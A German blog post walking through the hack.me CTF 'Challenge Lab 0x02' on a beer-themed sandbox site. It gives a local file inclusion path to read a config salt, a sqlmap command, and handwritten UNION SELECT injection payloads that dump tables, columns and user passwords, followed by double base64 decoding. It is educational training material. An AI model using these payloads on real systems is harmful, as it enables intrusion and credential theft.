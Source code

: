 ```yaml
---
title: Hack.me - Challenge 0x02
layout: post
permalink: hack-me-challenge-0x02-2
published: true
---
```

Ich probiere mich in letzter Zeit immer mal wieder an ein paar Challenges auf [hack.me](https://hack.me).

Wer die Seite noch nicht kennt, sollte sie unbedingt ausprobieren. elearnsecurity hat eine Seite ins Leben gerufen, auf der man PHP Code mit Schwachstellen hochladen kann. Jeder Besucher kann sich seine eigene Sandbox starten und darin den Code angreifen.

Aber zurueck zu der eigentlichen Challenge "[Challenge Lab 0x02](https://hack.me/101303/challenge-lab-0x02.html)".

    Hello again.

    We are souvlakiteam!

    In this new challenge you will be able to exercise your skills in an CTF challenge.

    The following challenge is devided in 3 parts. You can move to the next part only if you hack the   previous step.
    The attacks you will need to execute are well-known attacks. Two of them are also on the OWASP 10.

    Are you ready to hack it?

    Go on!

# Spoiler-ALERT!!!!

*Wer die Challenge selber loesen will, sollte hier nicht weiterlesen.*

Man wird mit einer Bierseite begruesst.
![](/content/images/2016/06/2016-06-22-012744_986x662_scrot.png)

## Local File Inclusion
Nachdem man ein wenig auf den ersten Seite rumgeklickt hat sollte erstmals die URLs

* /about.php?a=industrialization
* /about.php?a=ingredients

ins Auge gefallen sein. Auch sollte man den neuen Menupunkt "Fresh News" sehen, der hinzugekommen ist.
![](/content/images/2016/06/2016-06-22-012954_297x266_scrot.png)

Unter diesem Menupunkt bekommt man den ersten Hinweis:

```
TIP [1/4]: usually the SALT is stored in a file called: config.php
```

Wenn man aber versucht eine einfache [LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion) auszufuehren mit `/about.php?a=config.php` wird man auf die Seite 404.php weitergeleitet. Auch bei `/about.php?a=index.php` ist es die gleiche 404.php.

Also befinden wir uns noch nicht im richtigen Ordner.
Ein kurzer Check mit `/about.php?a=../index.php` bestaetigt das. Aber auch hier kann keine config.php gefunden werden.
Probieren wir das ganze ohne die PHP Endung bekommen wir eine ominoese Fehlermeldung.

![](/content/images/2016/06/2016-06-22-15_06_01-More-about-beer.png)

Es handelt sich hierbei also um einen Ordner. Wenn man nun dort also noch die `config.php` in dem Ordner `../config` aufruft, kann man im Quelltext den Salt finden.

![](/content/images/2016/06/2016-06-22-15_08_12-http___s43216-101303-idu-sipontum-hack-me_about-php_a---_config_config-php.png)

Damit sind wir im nächsten Level bei einer SQL Injection.

## SQL Injection

Hierbei kann man sich verschiedene Biere genauer anschauen. Jedes Bier wird über die URL `/beer.php?id=<ID>` aufgerufen, wobei die ID eine beliebige Zahl sein kann.
Da ich ja schon sagte, dass es sich hierbei um eine SQLi handelt, bleibt uns nur der Parameter `id` übrig. Das es sich hierbei um eine SQLi handelt findet man im Menüpunkt "Kelly Green", der nach Eingabe eines einfachen Anführungszeichens sichtbar wird.

![](/content/images/2016/06/2016-06-22-15_26_46-2---Checkpoint.png)

Nun gibt es hier 2 Methoden dies zu lösen.

### Allzweckwaffe SQLMap
Das ist die Hau-Drauf-Methode. Man startet SQLMap mit folgendem Befehl:

```
$ sqlmap --cookie="PHPSESSID=<value>" "http://<server>.hack.me/beer.php?id=1" -a --dbms=MySQL
```

SQLMap wird an dieser Stelle mehrere Injection Points finden. Hierbei sind unter anderem:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6528=6528 AND 'Xrzt'='Xrzt

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))VEkS) AND 'EYyJ'='EYyJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71716b6b71,0x42794f7544496575495347724c6a4676424d6a50434849585867774f474575575669456c77634d6f,0x716a7a6271),NULL-- -
```
Zudem bewirkt der Parameter `-a`, dass er die komplette Datenbank abspeichert.

### Old fashioned handjob
Wer kein SQLMap zur Verfügung hat, kann auch einfach die gute alte Methode verwenden und selber Hand anlegen.
Durch die Eingabe eines einfachen Anführungszeichen bekommen wir folgende Fehlermeldung, welche uns eine vorhande SQLi bestätigt.

```
Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in C:\inetpub\wwwroot\coliseum\client\sandbox\43216-101303\BODY\inner\beer.php on line 31
```

Durch weiteres rumprobieren kommt man darauf, dass die Eingabe `' union select 1,2,'3` eine gewollte Ausgabe, ohne Fehlermeldung, liefert.
![](/content/images/2016/06/2016-06-22-15_22_15-Program-Manager.png)
Wir wissen nun 2 Punkte:

* 2 und 3 sind für Ausgaben gut
* Wir brauchen am Ende einen String mit einem einfachen Anführungszeichen am Anfang und keinem Anführungszeichen am Ende.

Wenn man sich ein wenig mit SQL auskennt, kann man sich aus den Bedingungen folgenden SQL Befehl zusammenbauen, um alle Tabellen Namen auszugeben:

```
' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema
```

Das `group_concat` bewirkt hierbei, dass die Namen zusammengefügt und als ein String ausgegeben werden.

![](/content/images/2016/06/2016-06-22-15_25_42-Program-Manager.png)

D.h. die Datenbank hat also 2 Tabellen. Da wir das Passwort von Kelly Green holen wollen, ist die Datenbank `users` interessant.

Wenn wir unseren SQL Exploit ein wenig anpassen, bekommen wir auch alle Columns der Tabelle `users`:

```
' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' AND table_schema != 'mysql' AND table_schema != 'information_schema
```
![](/content/images/2016/06/2016-06-22-15_29_38-Program-Manager.png)

Wir wollen das Passwort von Kelly Green aus der Tabelle `users` haben, was wir mit folgendem SQL Exploit erreichen.

```
' UNION SELECT 1,2,group_concat(concat(name,' - ',surname,' - ',password),'<br />') FROM users WHERE name='Kelly' and surname='Green
```

![](/content/images/2016/06/2016-06-22-15_31_24-Program-Manager.png)

Alternativ können auch einfach alle Benutzer ausgegeben werden, wenn man die Where-Statements weglässt und ein einfaches `where 1='1` aufgrund des Anführungszeichens hinzufügt.

![](/content/images/2016/06/2016-06-22-15_31_56-Our-Beers.png)

Nun haben wir also das Passwort von Kelly Green und können endlich in die letzte Challenge.

## Decipher das Passwort
Wenn man sich das Passwort näher anschaut, fällt einem das `=` am Ende auf, was base64 als Padding verwendet.
Wenn man base64 Decoder auf den String anwendet, kommt tatsächlich ein neuer String raus, der unserem ursprünglichem Salt+Passwort sehr ähnlich sieht: `S09ONTY4dfsa780fsd6b78f6bds6aft876asd658a`
Wir strippen also den Salt von dem String und kommen mit einem Passwort raus `S09ONTY4`.

Nach Eingabe des Passwortes:
![](/content/images/2016/06/2016-06-22-15_35_44-3---Final-STEP.png)

Awwww....

Wir haben aber auch den Tip noch nicht beachtet:

```
TIP [1/4]: TIP: you have the dump of database, but we know that in the table users someone writes the algorithm to store the password...	
```

Hierzu muss man wissen, dass man in MySQL Kommentare zu Tabellen speichern kann. Diese kann man einfach über die Information_Schema Datenbank abfragen.

```
' UNION SELECT 1,2,group_concat(table_comment,'<br />') FROM information_schema.tables WHERE table_name='users
```

Dies liefert uns den Algorithmus: `password = base64(base64(password) + salt)`

Wir müssen also `S09ONTY4` nochmal mit base64 Decoden und landen bei `KON568`.

Nach Eingabe dieses Strings, endlich:
![](/content/images/2016/06/2016-06-22-15_39_47-3---Final-STEP.png)

*(Wer mit SQLMap einfach die gesamte Datenbank geholt hat, hätte auch einfach nach `base64` grepen können und der Algorithmus wäre klar gewesen)* 

so long.
